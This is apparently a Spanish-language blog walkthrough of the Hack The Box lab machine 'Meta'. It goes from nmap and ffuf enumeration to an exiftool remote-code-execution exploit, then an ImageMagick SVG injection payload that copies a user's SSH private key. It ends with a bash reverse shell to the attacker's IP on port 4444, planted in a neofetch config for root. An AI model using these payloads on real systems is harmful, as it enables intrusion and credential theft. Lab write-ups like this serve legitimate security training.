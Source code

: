 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Meta               |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 30                 |
| IP                     | 10.10.11.140       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Meta/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.140
```

![nmap 1](/assets/images/Meta/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.140 -oG allPorts
```

![nmap 2](/assets/images/Meta/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80 10.10.11.140 -oN targeted
```

![nmap 3](/assets/images/Meta/nmap3.png)


Encontramos en nuestro escaneo un virtual host `http://artcorp.htb`, asi que procedemos a agregarlo a nuestro /etc/hosts.

Procederemos a listar los directorios con gobuster:

```s
gobuster dir --url http://artcorp.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt --no-error -t 20
```

![Gobuster](/assets/images/Meta/gobuster.png)

```s
ffuf -u http://artcorp.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.artcorp.htb" -ac -c
```

![ffuf](/assets/images/Meta/ffuf.png)

Despues de la busquedad de mas informcion ffuf es quien encontro un subdominio, lo agregaremos en nuestro /etc/hosts tambien, etse nos permitio observar mas sobre lo que hay dentro.

A simple vista, parece que es una pagina encargada de analizar la meta data, esta es procesada por linux con un exiftool, asi que cargaremos una imagen para ver el resultado.

![MetaView](/assets/images/Meta/metaview.png)

Recientemente se encontro una vulnerabilidad en exiftool en versiones anteriores a la 12.24, permite a los atacantes ejecusion remota al cargar una imagen. Para este caso, usaremos una <a href="https://github.com/convisolabs/CVE-2021-22204-exiftool.git">herramienta</a> en github, en la cual se crea una imagen y nosotros tendremos que cambiarle la IP, Puerto y nos generara nuestra shell, solamente tendremos ahora que ponernos en escucha para ejecutar la shell.

![Access](/assets/images/Meta/access.png)

Echando un vistaso mas a fondo de la aplicacion, parece que utiliza mogrify para transformar las imagenes a png, que a su ves esta ligado a Imagick , mas informacion en el siguiente<a href="https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html">link</a>

Entonces lo que haremos, es descargarnos este script, para modificarlo a nuestro antojo, en este caso tomaremos la llave privada de thomas para conectarnos por ssh con sus credenciales y poder despues leer la flag.

```html
#proc.svg
<image authenticate='ff" `echo $(/home/thomas/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Abrimos un http server con python para mandarlo a la victima.

```s
sudo python3 -m http.server 80
```

Lo descargamos en la maquina victima en /var/www/dev01.artcorp.htb/convert_images/

```s
wget http://10.10.14.230/poc.svg
```

Despues nos pasamos a /dev/shm y podremos ahora leer la id_rsa, la copiamos a nuestra maquina, le damos formato y nos conectamos.

Una vez dentro, para checar nuestros privilegios usamos:

```s
sudo -l
```

Y vemos que somos capaces de ejecutar unos comandos. Asi que ahora cambiaremos su valor con:

```s
export XDG_CONFIG_HOME='/home/thomas/.config'
```

dentro de este path, editaremos el archivo de neofetch/config.conf y le insertaremos una shell

```s
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.230/4444 0>&1"
```

Nos ponemos en escucha en nuestra maquina en el puerto 4444 y lo ejecutamos con:

```s
sudo -u root /usr/bin/neofetch \"\"
```

![Root](/assets/images/Meta/root.png)

![Powned](/assets/images/Meta/pwned.png)